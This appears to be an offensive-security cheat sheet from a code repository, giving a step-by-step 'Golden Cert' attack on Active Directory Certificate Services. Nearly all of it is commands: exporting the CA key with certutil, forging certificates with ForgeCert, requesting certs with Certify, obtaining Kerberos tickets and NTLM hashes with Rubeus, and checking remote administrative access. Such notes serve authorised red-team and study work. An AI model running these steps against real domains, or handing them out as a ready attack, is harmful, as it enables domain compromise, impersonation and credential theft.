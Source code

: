 ### Golden Cert attack
#### Export certificate
```
certutil -exportpfx -p "<PASSWORD>" -enterprise Root <SERIAL NUMBER> C:\users\public\CA.p12
```

### Windows
#### Get user/computer to forge certificate for
```
Get-DomainUser <USERNAME> | Select-Object samaccountname, distinguishedName, objectsid
```

#### Forge certificate
- If cross forest make sure `Subject` and `SubjectAltName` are for user in the target forest
```
.\ForgeCert.exe --CaCertPath "CA.p12" --CaCertPassword <PASSWORD> --Subject "<DistinguishedName path>" --SubjectAltName <USER>@<FQDN DOMAIN> --NewCertPath "forged-ea.pfx" --NewCertPassword "<PASSWORD>"
```

#### Select cert template
- Find template with client auth
```
.\Certify.exe find
```

#### Request Cert for User
- If cross forest make sure `ca`, `onbehalfof`, `domain`, `dc`  `sidextension` are for user in the target forest
```
.\Certify.exe request /ca:<FQDN CA>\<CA NAME> /template:<TEMPLATE> /onbehalfof:<DOMAIN>\<USER> /enrollcert:"forged-ea.pfx" /enrollcertpw:"<PASSWORD>" /domain:<FQDN DOMAIN> /dc:<FQDN DC> /sidextension:<TARGET OBJECT SID>
```

#### Convert Pem to PFX with openssl
- Save the private key and cert to `cert.pem`
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Request TGT
- Add `/getcredentials` to also retrieve the NTLM hash
```
.\Rubeus.exe asktgt /user:<USER> /certificate:<PATH TO cert.pfx> /password:<PASSWORD> /domain:<FQDN DOMAIN> /dc:<FQDN DC> /nowrap /ptt
```

#### Check access
```
dir \\<TARGET FQDN>\c$
winrs -r:<TARGET FQDN> whoami
```
